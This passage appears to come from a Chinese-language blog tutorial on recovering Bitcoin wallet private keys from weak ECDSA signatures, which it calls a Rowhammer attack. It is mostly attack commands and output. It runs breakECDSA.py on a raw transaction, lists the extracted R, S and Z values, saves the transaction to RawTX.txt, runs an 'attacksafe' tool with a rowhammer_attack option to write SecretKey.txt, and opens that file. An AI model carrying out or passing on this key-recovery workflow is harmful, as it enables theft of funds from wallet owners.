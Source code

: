 

<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001a11dd54f81e27ca14eaf9bb4c94e6b91398130bdb09a71fa2dccf994636de08a1d0000006b483045022100f6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386022048c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0162020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-144-1024x245.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1250"/></figure>



<pre class="wp-block-code"><code>R = 0xf6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386
S = 0x48c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f
Z = 0x51e6147848d2e81e2b6b71a5f2b29be5121752b88cc1d5e1392c001b04b4c2d9</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>要從易受攻擊的 ECDSA 簽名交易中獲取密鑰，讓我們將數據添加<code>RawTX</code>到文本文檔並將其保存為文件<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001a11dd54f81e27ca14eaf9bb4c94e6b91398130bdb09a71fa2dccf994636de08a1d0000006b483045022100f6a4cf18e2806d4e729f7a71db5b66255499b8d25f0ee598bdf9b7b8183e4386022048c1b699c4ac92dc3add691935b6e561d7e0ea1d7053af298c09c3e3f23e7f8f012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0162020000000000001976a914154813f71552c59487efa3b16d62bfb009dc5f1e88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool rowhammer_attack</code>使用軟件啟動<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-145-1024x299.png" alt="如何使用簽名錯誤獲取比特幣錢包的私鑰（對比特幣的 Rowhammer 攻擊）" class="wp-image-1252"/></figure>



<p>我們發起了這次攻擊<code>-tool rowhammer_attack</code>並將結果保存到一個文件中<code>SecretKey.txt</code></p>



<p>現在看到成功的結果，打開文件<code>SecretKey.txt</code></p>



<pre class="wp-block-code"><code>cat SecretKey.txt</code></pre>
